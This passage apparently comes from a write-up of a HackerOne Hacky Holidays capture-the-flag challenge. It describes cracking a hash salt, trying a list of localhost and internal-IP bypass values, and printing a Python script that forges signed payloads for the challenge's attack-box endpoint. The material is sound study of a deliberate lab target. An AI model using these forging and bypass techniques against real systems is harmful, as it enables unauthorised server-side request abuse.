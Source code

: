 Using Hydra for cracking the salt succeeded and I found out that `mrgrinch463` is appended to the payload before calculating the MD5 hash of the payload. 

This allows generating valid hashes for arbitrary payloads and thus launch attacks against arbitrary targets - nice!

However, this turned out to the the easier step - I tried a bunch of payloads without success, e.g. possible contents of `/etc/hosts` that reference localhost and localhost IPs (`localhost`, `127.0.0.1`,`127.0.1.1`, `attackbox.local`, `attackbox`, `ip6-localhost`, `ip6-loopback`), different bypasses for making a ping to `localhost` without using `localhost` or `127.0.0.1` (`127.1`, `127.0.1`, `127.000.000.001`), IPv6 addresses (`::1`, `ipv6.localtest.me`), `hackyholidays.h1ctf.com`, the external IP / A record of `hackyholidays.h1ctf.com` (`18.216.153.32`), the AWS hostname found with [ipinfo](https://ipinfo.io/) (`ec2-18-216-153-32.us-east-2.compute.amazonaws.com"`), the internal 172 ip that was disclosed when pinging the AWS hostname from the attack box (`172.31.15.248`), broadcast addresses, my own VPS, Burp Collaborator hostnames,...

I used the following Python script for issuing manipulated requests:

```
import requests
import json
import base64
import hashlib
import re
import time
import string

from urllib3.exceptions import InsecureRequestWarning

# Suppress only the single warning from urllib3 needed.
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

BASE_URL = "https://hackyholidays.h1ctf.com"

# proxies = { "http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080" }
proxies = {}

def generate_hash(host):
    data = "mrgrinch463" + ("Array" if type(host) != str else host)
    return hashlib.md5(data.encode()).hexdigest()

def submit_attack(s, host):
    data = {"target": host,"hash": generate_hash(host) }
    b64payload = base64.b64encode(json.dumps(data).encode()).decode()
    params = { "payload" : b64payload }
    res = s.get(BASE_URL + "/attack-box/launch", params=params)
    m = re.search(".*getJSON\('([^']+)'.*", res.text, re.DOTALL)
    print(m)
    if m:
        return m.group(1)
    else:
        print(res.status_code, res.text)

def get_json(s, url, query_id):
    print(f"URL: {BASE_URL}{url}".replace(".json", ""))
    res = s.get(BASE_URL + url + str(query_id))
    print(res.status_code, res.text)


if __name__ == "__main__":
    s = requests.Session()
    s.proxies.update(proxies)
    requests.utils.add_dict_to_cookiejar(s.cookies, {"attackbox": "d09d508e78f3975e0199a5e91dde9687"})
    s.verify = False

```